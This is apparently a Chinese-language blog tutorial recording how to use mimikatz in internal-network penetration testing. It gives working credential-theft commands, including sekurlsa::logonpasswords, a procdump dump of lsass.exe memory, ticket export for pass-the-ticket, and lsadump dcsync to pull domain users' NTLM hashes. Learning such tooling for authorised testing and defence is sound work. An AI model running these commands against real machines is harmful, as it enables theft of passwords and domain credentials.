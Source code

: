 # 【内网渗透】mimikatz 基本使用

## 前言



本文主要是记录内网渗透神器`mimikatz`的主要使用方法，作为今后在渗透过程中的一个简单手册。



## 1. 工具简介



项目地址：https://github.com/gentilkiwi/mimikatz/



作者一直在更新这个项目，截止今日，最近一次更新 2021 年 8 月 10 日。



mimikatz 可以从内存中提取明文密码、哈希、PIN 码和 kerberos 票证。 mimikatz 还可以执行哈希传递、票证传递或构建黄金票证。



功能模块命令如下：



```
cls：       清屏
standard：  标准模块，基本命令
crypto：    加密相关模块
sekurlsa：  与证书相关的模块
kerberos：  kerberos模块
privilege： 提权相关模块
process：   进程相关模块
serivce：   服务相关模块
lsadump：   LsaDump模块
ts：        终端服务器模块
event：     事件模块
misc：      杂项模块
token：     令牌操作模块
vault：     Windows 、证书模块
minesweeper：Mine Sweeper模块
net：
dpapi：     DPAPI模块（通过API或RAW访问）[数据保护应用程序编程接口]
busylight： BusyLight Module
sysenv：    系统环境值模块
sid：       安全标识符模块
iis：       IIS XML配置模块
rpc：       mimikatz的RPC控制
sr98：      用于SR98设备和T5577目标的RF模块
rdm：       RDM（830AL）器件的射频模块
acr：       ACR模块
version：   查看版本
exit：      退出
```



## 2. 提升权限 privilege::debug



通过 debug 获得 mimikatz 程序的特殊操作。



调试权限允许某人调试他们本来无法访问的进程。例如，作为用户运行的进程在其令牌上启用了调试权限，可以调试作为本地系统运行的服务。



![img](http://upload-images.jianshu.io/upload_images/18738459-79aaea4e26e0b1ec.png)

image



当出现`ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061`时，表示客户端未持有所需的权限，即不是管理员。



![img](http://upload-images.jianshu.io/upload_images/18738459-f0a8b008f4ca2b2e.png)

image



## 3. 抓取明文密码 sekurlsa::logonpasswords



在 windows2012 以上的系统不能直接获取明文密码了，需要配置相关注册表等操作。



```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

或者直接运行：
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```



![img](http://upload-images.jianshu.io/upload_images/18738459-69f66352b8fa8374.png)

image



**分析命令执行后的内容**：



前面几行的`Authentication` ... `SID`等值就是一些基本信息。



**msv**：这项是账户对应密码的各种加密协议的密文，可以看到有 LM、NTLM 和 SHA1 加密的密文。



**tspkg，wdigest，kerberos**：这个就是账户对应的明文密码了。有的时候这三个对应的也不是全部都是一样的，需要看服务器是什么角色。



**SSP**：是在该机器上，最近登录到其他 RDP 终端的账户和密码。



## 4. sekurlsa 模块 获取密码信息



Mimikatz 提取用户凭证功能，其主要集中在 sekurlsa 模块，该模块又包含很多子模块，如 msv，wdigest，kerberos 等。如上面演示的抓取明文密码的`sekurlsa::logonpasswords`模块。



使用这些子模块可以提取相应的用户凭证，如



`sekurlsa::msv`提取 ntlm hash 凭证（对应上面截图的 msv 部分）；



`sekurlsa::wdigest`提取用户密码明文（对应上面截图的 wdigest 部分）；



`sekurlsa::kerberos`提取域账户凭证。



### 4.1 procdump + mimikatz 加载 dmp 文件，并导出其中的明文密码



procdump 工具，可以将`lsass.exe`进程的内存文件导出来，由 mimikatz 对导出的内存文件进行分析，从而获取密码。



新版`procdump v10.1` 使用时存在错误：https://docs.microsoft.com/en-us/answers/questions/500002/new-procdump-not-working-in-window-server-2016-160.html



开发者在下面也进行了回复，ProcDump v10.1 添加了对 IPT 流的支持——操作系统 / 调试器应该支持 Winv8.1+ 的 IPT——但它似乎甚至不在 Win10-RS1/Win2016 服务器中。



修复程序正在开发中。



```
[15:44:40] Dump 1 initiated: c:\temp\cmd.exe_210803_154440.dmp
[15:44:40] Dump 1 error: Error writing dump file: 0x80070057
The parameter is incorrect. (0x80070057, -2147024809)

[15:44:40] Dump count reached. 
```



![img](http://upload-images.jianshu.io/upload_images/18738459-4c9a342e8405bca6.png)

image



这里我使用`procdump v8.0`



关注公众号 “信安文摘”，回复“procdump” 下载。





管理员运行工具，导出为 lsass.dump 文件：



```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```



![img](http://upload-images.jianshu.io/upload_images/18738459-c9452017af0952fb.png)

image



将 lsass.dmp 放在 mimikatz 同一目录，读取密码文件：



```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords full
```



![img](http://upload-images.jianshu.io/upload_images/18738459-014540e1f9cd714b.png)

image



### 4.2 导出 lsass.exe 进程中所有的票据 sekurlsa::tickets /export



该功能模块导出`lsass.exe`进程中所有的票据，运行该命令会在当前目录生成多个服务的票据文件。



![img](http://upload-images.jianshu.io/upload_images/18738459-63c0340c23b6b82f.png)

image



可以使用这些导出的票据进行票据传递攻击（Pass The Ticket，PTT），对应的另一种攻击方式为哈希传递攻击（Pass The Hash，PTH）。



目前没有遇到这种环境进行学习，该种攻击方法的学习链接如下：票据传递（Pass The Ticket）攻击与利用：https://cloud.tencent.com/developer/article/1752178



之后遇到相关靶场环境（PTH、PTT）再进行学习记录。



## 5. lsadump 模块 读取域控中域成员 Hash



### 5.1 读取所有域用户的哈希 lsadump::lsa /patch



该命令需要在域控机器上执行：



![img](http://upload-images.jianshu.io/upload_images/18738459-044a60b8d3443771.png)

image



### 5.2 查看域内指定用户信息，包括 NTLM 哈希等



该命令需要在域控机器上执行：



```
lsadump::dcsync /domain:god.org /user:ligang
```



![img](http://upload-images.jianshu.io/upload_images/18738459-9348df5b160ea1ab.png)

image



## 总结



文章整理的有点乱，还是对 mimikatz 不够熟悉。mimikatz 的功能远不止这些，包括上面提到的 PTH 和 PTT 攻击，还需要好好深入学习。



## 参考资料



[神器 mimikatz 密码提取工具 - Privilege 模块](https://www.jianshu.com/p/fefcac30af15)



https://blog.csdn.net/weixin_40412037/article/details/113348310



[利用 procdump+mimikatz 读取 windows 系统中的密码](https://blog.csdn.net/LUOBIKUN/article/details/108458804)



https://www.cnblogs.com/-mo-/p/11890232.html



https://www.freebuf.com/articles/web/176796.html